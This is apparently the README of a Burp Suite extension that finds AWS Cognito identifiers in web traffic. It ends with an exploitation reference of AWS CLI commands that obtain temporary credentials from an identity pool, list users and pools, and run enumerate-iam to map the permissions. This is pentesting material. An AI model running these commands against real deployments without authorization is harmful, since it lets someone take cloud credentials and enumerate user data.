 # Burp AWS Cognito (Using the Montoya API)
__Author: Nick Coblentz__

This extension helps identify key information from requests to AWS Cognito and provides templates for exploiting several known vulnerabilities. Features include:
- Proxy History: Adding comments to Burp Proxy History to reflect the Cognito Method found in `X-Amz-Target: AWSCognitoIdentityProviderService.RevokeToken`
- Passive Scan Issues:
  - Log URLs observed matching `^cognito-(?:identity|idp)(?:-fips)?.[^\.]+.amazonaws.com$`
  - Log Identity Pool IDs observed in requests and suggestions for exploiting it (see below)
  - Log Client IDs observed in requests
  - Log custom user attributes found in the `idToken` or `GetUser` response
  - Log `InitiateAuth` requests and suggest request templates for `SignUp` and `UpdateUserAttributes` 

## How to Download this Plugin
Check out the "packages" section on the right of this GitHub Repo

## How to build this plugin
### Command-Line
```bash
$ ./gradlew fatJar
```
### InteliJ
1. Open the project in Intellij
2. Open the Gradle sidebar on the right hand side
3. Choose Tasks -> Other -> fatJar

## How to add this plugin to Burp
1. Open Burp Suite
2. Go to Extensions -> Installed -> Add
    - Extension Type: Java
    - Extension file: build/libs/burpmontoyacognito-1.0-SNAPSHOT-fatjar.jar

## Identity Pool Exploitation Reference

```bash
$ export AWS_DEFAULT_REGION="regionhere"
$ export AWS_IDENTITY_POOL_ID="identitypoolidhere"
$ aws cognito-identity get-id --identity-pool-id $AWS_IDENTITY_POOL_ID #anonymous attempt
$ #idtoken is found after logging in with a normal user to AWS Cognito as part of the normal application flow 
$ aws cognito-identity get-id --identity-pool-id $AWS_IDENTITY_POOL_ID --logins cognito-idp.$AWS_DEFAULT_REGION.amazonaws.com/issuerfromidtokenhere=idtokenvaluehere #authenticated, Produces an IdentityId (use below)
$ export AWS_IDENTITY_ID="valuefromabove"
$ aws cognito-identity get-credentials-for-identity --identity-id $AWS_IDENTITY_ID --logins cognito-idp.$AWS_DEFAULT_REGION.amazonaws.com/issuerfromidtokenhere=idtokenvalueherefrominitauthresponse # Produces SessionToken, SecretKey, SecretKey
$ export AWS_ACCESS_KEY_ID="...";export AWS_SECRET_ACCESS_KEY="...";export AWS_SESSION_TOKEN="..."
$ aws cognito-identity describe-identity --identity-id $AWS_IDENTITY_ID</code></li>
$ aws cognito-identity describe-identity-pool --identity-pool-id $AWS_IDENTITY_POOL_ID</code></li>
$ aws cognito-identity list-identity-pools --max-results 100</code></li>
$ aws cognito-identity list-identities --identity-pool-id $AWS_IDENTITY_POOL_ID --max-results 100</code></li>
$ aws cognito-idp list-users --user-pool-id $AWS_IDENTITY_POOL_ID</code></li>
$ aws cognito-idp admin-list-devices --username test1 --user-pool-id $AWS_IDENTITY_POOL_ID</code></li>
$ aws cognito-identity get-open-id-token --identity-id $AWS_IDENTITY_ID --no-sign</code> and <code>aws sts assume-role-with-web-identity --role-arn <role_arn> --role-session-name sessionname --web-identity-token <token> --no-sign #Basic Flow Enabled?
$ # see https://github.com/andresriancho/enumerate-iam/pull/15/commits/77ad5b41216e3b5f1511d0c385da8cd5984c2d3c to prevent it from getting stuck
$ git clone https://github.com/andresriancho/enumerate-iam.git && cd enumerate-iam && pip install -r requirements.txt
$ ./enumerate-iam.py --access-key $AWS_ACCESS_KEY_ID --secret-key $AWS_SECRET_ACCESS_KEY --session-token $AWS_SESSION_TOKEN --region $AWS_DEFAULT_REGION          
```
